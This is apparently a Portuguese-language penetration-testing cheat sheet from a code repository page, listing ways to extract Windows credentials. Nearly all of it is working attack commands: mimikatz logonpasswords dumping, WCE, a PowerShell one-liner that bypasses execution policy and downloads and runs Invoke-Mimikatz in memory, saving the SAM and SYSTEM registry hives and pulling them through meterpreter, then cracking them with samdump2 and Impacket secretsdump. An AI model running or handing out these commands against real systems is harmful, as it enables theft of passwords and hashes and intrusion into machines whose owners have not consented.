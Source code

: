 ### Obter senha do Windows 7 (mimikatz)
~~~~
mimikatz.exe
privilege::debug
sekurlsa::logonpasswords
~~~~

### Obter senha do Windows 7 (WCE)
~~~
wce.exe -w
~~~

### Uso do Mimikatz de dentro da PowerShell diretamente na memória para fazer uma extração silenciosa
~~~
powershell.exe -exec bypass -C "IEX (New-Object Net.WebClient).DownloadString('https://github.com/PowerShellMafia/PowerSploit/blob/master/Exfiltration/Invoke-Mimikatz.ps1');Invoke-Mimikatz -DumpCreds" > C:\Users\maicon\Downloads\pass.txt
~~~


### Extração dos arquivos SAM e SYSTEM para achar as credenciais através do samdump2
~~~
meterpreter> load powershell
meterpreter> powershell_shell
~~~

Buscar nos registros as chaves sam e system

~~~
PS> reg save hklm\sam c:\sam
PS> reg save hklm\system c:\system

meterpreter>download c:\\sam
meterpreter>download c:\\system
~~~

Nova aba como administrador
~~~
# samdump2 system sam
~~~

### Mais um método de extração dessa vez com um dos módulos do Impacket chamado Secretdump
git clone impacket
pip install -r requirements.txt
python3 setup.py install
secretsdump.py -sam sam -system system LOCAL
